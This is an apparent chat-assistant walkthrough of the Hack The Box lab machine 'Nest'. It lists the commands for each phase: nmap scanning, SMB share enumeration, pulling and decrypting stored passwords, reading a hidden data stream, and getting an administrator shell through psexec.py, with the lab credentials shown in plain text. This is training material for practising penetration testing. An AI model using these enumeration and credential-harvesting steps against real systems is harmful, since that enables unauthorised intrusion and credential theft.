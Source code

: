 Nice work on completing HTB: Nest! 🔥 Here's a full walkthrough with commands grouped by phase, as you like:

---

## 🧭 Reconnaissance

**Nmap Full TCP Port Scan**
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.178
```

**Nmap Service/Script Scan**
```bash
nmap -p 445,4386 -sC -sV -oA scripts/nmap-tcpscripts 10.10.10.178
```

**Key Ports Identified**
- TCP 445: SMB
- TCP 4386: HQK Reporting Service (custom)

---

## 📁 Initial [SMB](SMB) Enumeration

**Anonymous SMB Access**
```bash
smbmap -H 10.10.10.178 -u null
smbclient -N //10.10.10.178/Users
smbclient -N //10.10.10.178/Data
```

**Files of Interest**
- `Welcome Email.txt` → Provided creds: `TempUser : welcome2019`

---

## 🔑 Gaining Access as TempUser

**Enumerate Shares With Credentials**
```bash
smbmap -H 10.10.10.178 -u TempUser -p welcome2019
smbclient -U TempUser //10.10.10.178/Data
```

**Pull Files**
```bash
recurse ON
prompt OFF
mget *
```

**Find Encrypted Password**
- In `RU_config.xml` for user `c.smith`
- Password: `fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=`

**Find Path Hint**
- In `Notepad++` config file → referenced: `\\HTB-NEST\Secure$\IT\Carl`

---

## 🔓 Decrypting C.Smith's Password

**Locate Visual Basic Project**
```bash
smbclient -U TempUser //10.10.10.178/Secure$
cd "IT\Carl"
recurse ON
prompt OFF
mget *
```

**Decrypt Password via DotNetFiddle**
```vbnet
DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=")
```
- Result: `xRxRxPANCAK3SxRxRx`

---

## 🧑‍💻 Shell as C.Smith

**Verify SMB Access**
```bash
smbmap -H 10.10.10.178 -u C.Smith -p xRxRxPANCAK3SxRxRx
```

**Retrieve user.txt**
```bash
smbclient -U C.Smith //10.10.10.178/Users
cd C.Smith
get user.txt
```

---

## 🧠 Debug Access to HQK Reporting Service

**Manual Connect With Telnet**
```bash
telnet 10.10.10.178 4386
```

**Find Hidden Stream in SMB**
```bash
smbclient -U C.Smith //10.10.10.178/Users
cd "HQK Reporting"
allinfo "Debug Mode Password.txt"
get "Debug Mode Password.txt:Password"
```
- Result: `WBQ201953D8w`

**Enable Debug Mode in HQK**
```bash
debug WBQ201953D8w
```

**Show LDAP Config with Encrypted Admin Password**
```bash
setdir LDAP
showquery 2
```

---

## 🔓 Decrypting Admin Password

**Grab and Open HqkLdap.exe in dnSpy**
- Find decryption logic
- Run with breakpoint or patched console output

**Resulting Password**
- `XtH4nkS4Pl4y1nGX`

---

## 👑 Shell as SYSTEM

**PSExec Shell**
```bash
psexec.py administrator:XtH4nkS4Pl4y1nGX@10.10.10.178
```

**Grab root.txt**
```bash
type C:\Users\Administrator\Desktop\root.txt
```